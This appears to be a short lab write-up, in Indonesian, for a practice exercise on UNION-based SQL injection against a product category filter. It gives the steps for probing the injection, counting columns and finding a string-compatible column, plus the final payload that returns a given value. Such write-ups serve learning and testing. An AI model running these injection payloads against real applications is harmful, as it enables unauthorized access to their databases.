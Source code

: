 # Overview
SQLI vuln di bagian Product Category Filter

Hint:
- UNION lagi
- kompatibel dengan `string` data

Goals:
- perform SQLI untuk return additional row berisi value '1iWYWI'


# Analisis
cek apakah vuln dengan SQLI dengan `'` atau `'--`

lalu cek jumlah kolom `' order by 3--` atau `' union select null,null,null`

lalu cek kolom yang dapat hold string value dari chellange dengan `' union select '1iWYWI',null,null--`

Payload:
- `' union select null,'1iWYWI',null--`